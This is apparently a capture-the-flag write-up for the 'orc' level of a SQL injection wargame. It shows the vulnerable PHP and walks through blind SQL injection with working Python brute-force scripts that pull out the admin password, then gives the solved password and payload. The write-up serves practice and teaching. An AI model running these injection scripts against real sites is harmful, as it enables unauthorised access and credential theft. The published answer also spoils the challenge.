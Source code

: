 Source:

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

In this challenge, we would have a general overview of **Blind SQL Injection**.
Tutorial: [Blind SQLi](https://portswigger.net/web-security/sql-injection/blind)

The program above's divided into 2 main section:
- The first one is a basic SQLi and easy to pass
- The second is what we have to solve. 
We should rely on the first part to guess the password to complete the chall.

We try guess the payload to see whether it is accomplished or not (if SQLi in the first query "kick in" successful, "Hello admin" will be printed on the screen).

Try guess the length, insert **length(pw)** function (try **len()** but not working, so it maybe MySQL ), then comment out all the remaining code: `try_payload ="pw=123' or length(pw) < 10 -- char(32)"`.

The page return "Hello admin", so the length of password is less than 10 characters.

So we ought to guess the exact length of password with similar query and try from range 1 to 9, append the query into url and loop it. This python code below will solve this:
```python
from requests import *
# try_payload ="pw=123' or length(pw) < 10 -- char(32)"
cookie = dict(PHPSESSID="sftmn1nhpsjgke59r39nfn03nv")

for i in range (10):
    payload = "?pw=123' or length(pw) = " + str(i) + " -- char(32)"
    a = get("https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php" + payload, cookies=cookie)
    if "Hello admin" in a.text:
        print(payload)
        print("The length of password is", i)
```

Note: 
- This page require login method, so make sure we have cookie to maintain our access and get into the chall. 
- Get cookie by Developer Mode -> Storage(Firefox)/ Application(Edge, Chrome, ...).

Result:

![image](https://user-images.githubusercontent.com/48288606/154279600-86f8f63e-8def-4c8a-942c-4409eb4826fd.png)

With the shown result, we will guess which character is stayed in each position. We can take advantages of **ascii()** and **substring()** function to make a comparison the password with the character we test. We try all the printable character in ascii code (from 32-> 126). Use this pattern to brute-force all the case of available password: `?pw=123' or ascii(substring(pw, {position}, 1)) = {ascii_number} -- char(32)`

The possibility of the chall is contingent on the complex of the password so this chall still be reasonable. The code below will brute-force the password we need.


```python
from requests import *
try_payload ="pw=123' or length(pw) < 10 -- char(32)"
cookie = dict(PHPSESSID="sftmn1nhpsjgke59r39nfn03nv")


adminPassword = ""

print("==============================================================")

for i in range (1,9):
    for j in range(32, 127):
        payload = "?pw=123' or ascii(substring(pw, " + str(i) + ", 1)) = '" + str(j) + "' -- char(32)"
        a = get("https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php" + payload, cookies=cookie)
        if "Hello admin" in a.text:
            print(payload)
            print("The position of ", i, "has value: ", chr(j))
            print("==============================================================")
            adminPassword += chr(j)
            break

print("Password of Administrator: ", adminPassword)
```
We get the full password for admin login:

![image](https://user-images.githubusercontent.com/48288606/154281330-d52e01cb-b033-4861-95a9-fea26a6fde4b.png)


Filter(pw): `prob` | `_` | `.` | `()`

PW: `095a9852` 

Payload: `?pw=095a9852`

Code solve: [HERE](3-orc.py)
